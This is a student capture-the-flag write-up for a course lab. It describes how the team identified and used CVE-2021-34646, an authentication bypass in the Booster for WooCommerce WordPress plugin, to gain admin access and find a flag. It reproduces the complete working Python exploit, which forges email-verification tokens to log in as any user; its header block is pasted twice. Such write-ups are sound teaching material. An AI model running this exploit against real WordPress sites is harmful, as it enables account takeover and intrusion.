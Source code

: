 # Work done in week #3

## CTF - Week 3

Sanity Check: The flag was on the rules as stated.

Challenge 1:
1. We accessed the provided URL and explored the products being sold.
2. We found a product with a comment reporting security issues.
3. We checked the versions of WordPress and plugins for the product.
4. We noticed a footer message stating that the seller uses the same plugins and WordPress.
5. We searched for CVEs (Common Vulnerabilities and Exposures) corresponding to the collected information.
6. We found 2 possible candidates, and one of them was correct.

Challenge 2:
1. We used the provided exploit at https://www.exploit-db.com/exploits/50299.
2. Initially, we encountered issues trying to run the file without the correct permissions and with the wrong Python version.
3. When accessing the address provided http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/1 (being 1 the user id) by the exploiter, we verify that the id belongs to the admin
4. We executed the exploit with the target's URL and ID 1.
5. We obtained 3 possible URLs, and one of them granted us administrator privileges.
6. We accessed the provided posts section at http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php.
7. In an admin post, we found the flag.


**Exploit:**

```python
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64  # Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
      url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
      print("status code != 200")
      print(r.headers)
      sys.exit(-1)

def email_time_to_timestamp(s):
  tt = email.utils.parsedate_tz(s)
  if tt is None: return None
  return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
  print(f"{W}Timestamp: {B}" + date)
  print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
  print("We need to generate multiple timestamps in order to avoid delay related timing errors")
  print("One of the following links will log you in...\n")

printBanner()

for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
      hash = hashlib.md5(str(unix-i).encode()).hexdigest()
      print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
      token='{"id":"'+ id +'","code":"'+hash+'"}'
      token = base64.b64encode(token.encode()).decode()
      token = token.rstrip("=") # remove trailing =
      link = url+"my-account/?wcj_verify_email="+token
      print(link + f"\n{RST}")
```

## Identification

- CVE-2021-34646 - WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass (https://www.exploit-db.com/exploits/50299)

- This vulnerability allows remote attackers to bypass authentication and act as other users. The WooCommerce Booster Plugin has a weak random token generation in the reset_and_mail_activation_link function found in the ~/includes/class-wcj-emails-verification.php file. Attackers can easily generate a token that, when used with the process_email_verification function, allows the impersonation of users, including administrators. This vulnerability requires the "Email Verification" module and the "Login User After Successful Verification" setting to be enabled, which it is by default.

- Affected systems:
    - WordPress Plugin WooCommerce Booster Plugin 5.4.3

## Catalogue

- This exploit garnered an exceptionally high CVSS score of 9.8 out of 10, signifying its extreme criticality.

## Exploit

The exploit used by us was found in the following url: https://www.exploit-db.com/exploits/50299

It's a python script that takes a URL and a user ID as parameters. It, then, generates possible email verification tokens for that user, through the known weak token generation method. Finaly, it creates various URLs with those tokens, of which, one of them can authenticate the attacker as the user for the given URL.

## Atacks

When gaining access to the website as an admin, we found that the attacker can edit the contents he would like such as the home page:
